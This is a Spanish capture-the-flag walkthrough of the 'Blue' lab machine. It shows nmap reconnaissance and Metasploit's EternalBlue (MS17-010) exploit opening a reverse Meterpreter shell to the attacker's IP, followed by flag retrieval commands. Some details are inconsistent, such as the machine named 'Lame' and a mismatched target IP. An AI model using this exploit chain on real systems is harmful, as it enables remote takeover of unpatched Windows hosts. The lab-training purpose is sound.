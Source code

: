 Creamos los directorio de trabajo con el nombre de la maquina en nuestro caso Lame

```ruby
mkdir Blue
```

## Reconocimiento de Puertos

Lanzamos un ping para comprobar que tenemos conexión desde nuestra maquina 

```ruby
ping 10.10.10.40
```

Comprobamos la versión del sistema operativo que tenemos si tenemos un ttl de 127 se trata de una maquina windows.

### Reconocimientos Nmap

Lanzamos la herramienta Nmap para ver los puertos disponibles que se encuentran abiertos,
es un escaneo agresivo ya que estamos en un entorno controlado

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts
```

La salida la ponemos en un archivo con formato grepeable para poder buscar luego 

Los puertos son los siguientes:

```ruby
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
49152/tcp open  unknown      syn-ack ttl 127
49153/tcp open  unknown      syn-ack ttl 127
49154/tcp open  unknown      syn-ack ttl 127
49155/tcp open  unknown      syn-ack ttl 127
49157/tcp open  unknown      syn-ack ttl 127

```

Realizamos un escaneo mas exhaustivo para comprobar que versión corre en ese puerto

```ruby
nmap --script=firewall-bypass -p135,139,445,49152,49153,49154,49155,49157 -vvv -oN targeted 10.10.10.40
```

```ruby

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```

vemos que podemos explotar la vulnerabilidad eternalblue en la máquina lo podemos de hacer de varias formas yo voy con metasploit que es la forma mas sencilla .


## Explotamos MS17-010

Para ello primero de todo vamos a metasploit y buscamos aquello referente con el codigo 


```ruby
searchsploit ms17-010
```

Encontramos las siguientes vulnerabilidades

``` ruby
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14   average  Yes
```

Podemos ver que si lo ejecutamos nos lanza una shell meterpreter, por lo tanto vamos a configurarlo para intentar explotar el fallo

```ruby
msf6 exploit(windows/smb/ms17_010_eternalblue) > setg LHOST 10.10.14.13
LHOST => 10.10.14.13

msf6 exploit(windows/smb/ms17_010_eternalblue) > setg RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
```


Explotamos el exploit:

```ruby 
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
.....
[*] Meterpreter session 2 opened (10.10.14.13:4444 -> 10.10.10.40:49164) at 2023-06-28 09:20:26 -0400
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

Finalmente podemos comprobar que lo explotamos con éxito.
```ruby
meterpreter > ls
Listing: C:\Windows\system32
...
```

### Tratamiento de TTY de meterpreter 

Como no me gusta la terminal de meterpreter porque es un poco precaria voy a tunearla para que sea parecida a la de windows

Para ello vamos a ejecutar el siguiente comando 

```ruby 
meterpreter > execute -c -f cmd.exe -H -i -d
```

Con esto tenemos una shell como la de windows 

```ruby 
Process 1820 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```



#### Buscamos las flag

Para encontrar las flags vamos al directorio raíz y a partir de ahí realizamos una búsqueda 
recursiva usamos el siguiente comando.

```ruby
dir /s /b root.txt user.txt
```
Nos devuelve dos ficheros que existen en el equipo en los siguientes directorios 

```ruby
C:\Users\Administrator\Desktop\root.txt
C:\Users\haris\Desktop\user.txt
```

Para ver las flags usamos el siguiente comando (es similar al cat)

```ruby 
type C:\Users\Administrator\Desktop\root.txt
```